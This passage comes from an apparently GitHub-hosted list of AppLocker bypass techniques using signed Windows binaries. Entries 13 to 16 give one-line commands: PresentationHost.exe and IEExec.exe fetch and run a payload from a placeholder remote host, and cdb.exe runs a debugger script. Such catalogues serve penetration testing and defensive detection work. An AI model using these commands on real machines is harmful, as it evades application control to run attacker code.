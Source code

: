 

## 13. PresentationHost.exe

`presentationhost.exe file:///x.x.x.x/bypass.xbap`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes  


Notes:

Links:  
https://medium.com/@jpg.inc.au/applocker-bypass-presentationhost-exe-8c87b2354cd4
https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf



## 14. dfsvc.exe

Missing Example

Requires admin: ?  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  


Notes:

Links:  
https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf



## 15. IEExec.exe

`ieexec.exe http://x.x.x.x:8080/bypass.exe`

Requires admin: ?  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?

Notes:

Links:  
https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/



## 16. cdb.exe

`cdb.exe -cf x64_calc.wds -o notepad.exe`

Requires admin: ?  
Windows binary: No  
Bypasses AppLocker Default rules: ?  

Notes:
